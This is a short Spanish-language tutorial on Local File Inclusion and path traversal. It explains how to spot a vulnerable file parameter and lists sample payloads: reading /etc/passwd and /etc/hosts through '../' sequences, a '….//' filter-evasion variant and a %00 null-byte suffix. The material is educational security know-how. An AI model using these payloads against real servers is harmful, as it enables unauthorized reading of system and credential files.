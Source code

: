 # Local File Inclusion (LFI) + Path Traversal 

El LFI ocurre cuando mediante un campo de entrada se está llamando a la ruta de un archivo local, lo cual permite la lectura de estos archivos. 


## Introducion

**Local File Inclusion:** Es una vulnerabilidad web que permite la lectura de archivos locales. Esta vulnerabilidad ocurre cuando mediante un campo de entrada  se está llamando a la ruta de un archivo local.

> URL = `localhost/?file=RUTA_LOCAL`

**Path Traversal:** Se enfoca en la manipulación de las rutas de archivos para acceder a recursos que normalmente no estar disponibles

> URL = `localhost/?file=/../../../../../../RUTA_LOCAL`


# Identifocacion de posible Vulneravilidad

Al inspecinar un codigo de una web, tenemos que verifcar si contiene las siguiente caracteristivas `index.php?fam=monitor`, lo cual nos indicaria una posible vulneravilidad de **LOCAL FILE INCLUSION**

```html
<li><a href="/index.php?fam=monitor"><DIV class="cuadro1">Monitores</DIV></a></li>
```

![Descripción de la imagen](img/LFI.png)


## Versiones de LFI

`=/etc/passwd:`
Accede al archivo /etc/passwd en el sistema. Este archivo generalmente contiene información sobre usuarios del sistema.

`=/var/www/html/etc/passwd:`
Intenta acceder al archivo /etc/passwd, pero especifica una ruta relativa que comienza desde el directorio /var/www/html/. Esto es común cuando el atacante intenta navegar hacia arriba en la estructura de directorios del servidor web.

`=/var/www/html/../../../../../../../../../../../../etc/hosts:`
Utiliza una ruta relativa para intentar acceder al archivo /etc/hosts navegando hacia arriba en la estructura de directorios desde el directorio /var/www/html/.

`=/var/www/html/….//….//….//….//….//….//….//….//….//….//….//….//etc/hosts:`
Similar al anterior, pero utilizando secuencias de puntos y barras diagonales (/) para navegar hacia arriba en la estructura de directorios.

`=/var/www/html/….//….//….//….//….//….//….//….//….//….//….//….//etc/hosts%00:`
Similar al cuarto, pero con un carácter de nulo %00 al final. Es un intento de vulnerabilidad específica que maneja las rutas de manera diferente cuando se encuentra un carácter de nulo.




## Reporte




